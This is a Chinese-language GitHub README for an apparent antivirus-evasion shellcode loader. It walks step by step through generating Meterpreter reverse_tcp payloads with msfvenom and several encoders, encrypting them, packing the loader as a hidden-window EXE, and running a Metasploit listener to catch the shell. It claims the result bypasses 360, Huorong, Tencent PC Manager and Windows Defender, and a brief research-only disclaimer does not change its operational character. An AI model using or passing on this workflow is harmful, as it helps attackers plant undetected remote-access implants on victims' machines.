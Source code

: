 # ShellCode_Loader

ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。

## 云沙箱 Shellcode_encryption.exe
https://s.threatbook.com/report/file/0606827425aefcc44402ce83987efbd90afefb61da29fce19591fe7e27d8f4a5
```
SHA256:0606827425aefcc44402ce83987efbd90afefb61da29fce19591fe7e27d8f4a5
MD5:8ad44325c56a450d1a2500daaad6fa03
SHA1:169b434cb4750e3e75079b731dc3c97caee32867
```
![图片](https://user-images.githubusercontent.com/34683107/191193300-1a54a15a-a859-41fc-b552-dae0de7ed9c4.png)


# 声明

该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。

# 测试环境

截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）

# 生成Msf_Payload

### 默认

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```

### XOR 编码器

```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```

### 动态密钥XOR编码器

```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```

### Zutto Dekiru

```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```

# 生成CobaltStrike_Payload

![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件

内容为：

![图片](https://user-images.githubusercontent.com/34683107/188178026-bd171622-6f6e-4568-af43-e2d49755220c.png)

# 加密Payload

```
Shellcode_encryption.exe    payload.c
```

![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器

将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)

# 打包可执行程序(EXE编译环境)

Python 3.8.6

pyinstaller 4.7

```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```

生成ShellCode_Loader.exe在dist目录中

# 上线测试

## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```

![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢

# 参考链接

https://mp.weixin.qq.com/s/M3tbE08ybD_lIrJS8FtPTw

https://mp.weixin.qq.com/s/jMHn4trtMjgdSIsRmoVOtw

https://mp.weixin.qq.com/s/2105i9rX4yv6K0emRFr8_g

https://mp.weixin.qq.com/s/VS_c3QClxmCB6raXEfljpg

https://mp.weixin.qq.com/s/4pwbdK6zz4XH7YJxCoA1Lw

# 感谢阅读

![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)
